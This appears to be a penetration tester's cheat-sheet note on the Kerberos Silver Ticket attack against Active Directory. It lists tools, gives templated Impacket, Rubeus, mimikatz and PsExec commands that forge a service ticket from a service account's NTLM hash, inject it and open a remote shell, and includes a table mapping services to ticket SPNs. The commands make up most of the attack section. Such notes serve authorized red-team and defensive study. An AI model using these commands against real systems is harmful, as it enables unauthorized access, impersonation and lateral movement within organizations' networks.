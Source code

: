 # Overview
A Silver Ticket attack involves forging a valid **service ticket (TGS)** for a specific service within a [[88 - Kerberos]] environment, using the service account's *NTLM* hash. Once crafted, the forged ticket allows an attacker to authenticate to the targeted service as any user, often bypassing domain controllers entirely. This technique is limited to individual services but offers stealthy, long-term access if the service account hash remains unchanged.

## Prerequisites
- Having the *NTLM* hash of a service account, such as a computer account, to forge a **Ticket Granting Service (TGS) ticket**.

## Tools
- [Impacket - ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
- [Impacket - psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
- [Rubeus Release](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)


# Exploit
## Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>

export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache

python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```

## Windows
```powershell
# Using Rubeus
rubeus.exe asktgs /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /ldap /service:cifs/<DOMAIN> /ptt /nowrap /printcmd /ptt

# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>" /ptt

# Inject the ticket (If needed manually)
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```
For both `mimikatz` and `Rubeus`, the `/ptt` flag is used to automatically inject the ticket.

# Services
| Service Type                                | Service Silver Tickets          |
|---------------------------------------------|---------------------------------|
| WMI                                         | HOST, RPCSS                     |
| PowerShell Remoting                         | HOST, HTTP, WSMAN (depending on OS), RPCSS |
| WinRM                                       | HOST, HTTP (sometimes just WINRM) |
| Scheduled Tasks                             | HOST                            |
| Windows File Share, also psexec             | CIFS                            |
| LDAP operations, including DCSync           | LDAP                            |
| Windows Remote Server Administration Tools  | RPCSS, LDAP, CIFS               |
| Golden Tickets                              | krbtgt                          |


# References
- [https://www.crowdstrike.com/en-gb/cybersecurity-101/cyberattacks/silver-ticket-attack/](https://www.crowdstrike.com/en-gb/cybersecurity-101/cyberattacks/silver-ticket-attack/)
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html)
- [https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html](https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html)
- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)